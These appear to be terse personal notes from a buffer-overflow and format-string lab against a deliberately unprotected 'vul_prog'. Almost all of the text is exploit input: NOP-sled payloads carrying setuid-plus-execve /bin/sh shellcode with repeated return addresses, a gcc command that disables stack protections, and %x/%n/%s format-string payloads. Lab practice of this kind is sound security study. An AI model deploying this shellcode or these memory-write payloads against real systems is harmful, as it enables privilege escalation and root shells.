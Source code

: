 0x56556296

0x56556296

![[Pasted image 20250820183811.png]]

need 32


run $(perl -e 'print "\x90"x32,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68","\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89","\xe1\xcd\x80\x90","\x04\xf2\xff\xbf"x40')


```
run $(perl -e 'print "\x90"x40,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68","\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89","\xe1\xcd\x80\x90","\x04\xf2\xff\xbf"x40')


```


run $(perl -e 'print "\x90"x32,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68","\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89","\xe1\xcd\x80\x90","\x04\xf2\xff\xbf"x40')



run $(perl -e 'print "\x90"x32,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68","\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89","\xe1\xcd\x80\x90","\x3c\xcc\xff\xff"x40')



0xffffcc3c



"\x3c\xcc\xff\xff"x40'
30ceffff

main
password







gcc -m32 -fno-stack-protector -z execstack -g -o vul_prog vul_prog.c

1448453556


%x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%x.%x.%x.%x.%x.%x


AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%x.%x.%x.%x.%x.%x



0x5655a5b4

\xb4\xa5\x55\x56


1448435888
1448435890
1448435892

144843588A


%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
%x.%x.%x.%x.%x.%x.%x.%x.%s.%x.%x.%x.%x.%x.%x